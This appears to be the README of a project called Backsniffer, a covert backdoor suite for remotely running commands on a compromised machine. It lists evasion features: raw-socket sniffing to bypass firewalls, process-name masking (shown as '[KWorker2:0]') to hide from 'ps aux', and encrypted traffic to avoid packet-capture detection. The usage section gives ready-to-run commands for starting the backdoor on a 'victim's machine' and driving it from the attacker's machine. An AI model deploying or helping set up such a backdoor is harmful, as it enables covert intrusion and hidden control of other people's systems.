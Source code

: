 Backsniffer
=====


Backsniffer is a covert communications suite comprised of a victim-side backdoor application and shell application that allows for an attacker to execute commands on a compromised system remotely.

----------
Features
-----------
 - **Firewall Evasion** Commands are able to get through to the target machine even with a running firewall due to the use of raw-sockets to sniff for packets.
 - **Process Masking** The back-door module running on the client’s machine can camouflage itself by changing the name of it’s process. This allows it to remain invisible through usual detection methods such as running ‘ps aux’.
 - **Authentication** By checking for a pre-determined TTL and destination port, there are two layers of authentication to ensure that the backdoor only picks up messages that are meant for it.
 - **AES 256 Bit Encryption** All messages sent between the client and backdoor are encrypted using AES 256 bit encryption to mitigate any chance of easy discovery via packet captures.

Requirements & Limitations
----------------------------
1.	PyCrypto
2.	Setproctitle
3.	Scapy

Usage
-------
 1. Install dependancies ```sh install.sh```
 2. On the victims machine, start the application with the following command format: ```python client.py <listeningPort> <TTLkey> <16 Char Decryption Key>  <16 Char Initialization Vector> <ProcessName>``` i.e. ```python client.py 80 71 012345689abcdef abcdefghijklmnop [KWorker2:0]```
 3. On the attacker's machine, e.g. ```python blackhat.py <VictimIP> <SrcPort> <DstPort> <TTLkey> <16 Char Encryption Key> <16 Char Initialization Vector>```i.e. ```python blackhat.py 192.168.0.3 500 80 71 0123456789abcdef abcdefghijklmnop```

